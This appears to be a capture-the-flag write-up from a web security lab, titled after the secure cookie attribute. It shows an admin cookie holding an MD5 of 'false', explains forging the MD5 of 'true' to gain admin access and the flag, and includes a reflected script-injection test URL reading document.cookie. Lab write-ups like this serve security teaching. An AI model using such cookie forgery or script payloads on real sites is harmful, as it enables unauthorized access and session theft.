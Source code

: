 # Secure Cookie Attribute

The secure attribute is an option that can be set by the application server when sending a new cookie to the user within an HTTP Response. The purpose of the secure attribute is to prevent cookies from being observed by unauthorized parties due to the transmission of the cookie in clear text.

## Notes

Checking the cookie we can see that we have:

```bash
HTTP/1.1 200 OK
Server: nginx/1.8.0
Date: Wed, 17 Mar 2021 12:57:30 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.3.10-1ubuntu3.19
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Wed, 17-Mar-2021 13:57:25 GMT
```

```bash
http://192.168.1.34/?page=member&id=%3Cscript%3Ealert(document.cookie)%3C/script%3E&Submit=Submit#
```

if we look the Set-Cookie we can note that we get: 

```bash
I_am_admin=68934a3e9455fa72420237eb05902327
```

that mean our value is false checking the hash algorithm md5. so we are not admin.
if we change this value to true (b326b5062b2f0e69046810717534cb09) we get the flag.

```php
<
	?php
	$str = 'false';
	echo md5($str);
?>
```

## Info
[md5](https://md5.gromweb.com/?string=42)
[owasp cookie](https://owasp.org/www-community/controls/SecureCookieAttribute#)
[owasp top 10 guide](https://thehackerish.com/owasp-top-10-the-ultimate-guide/)

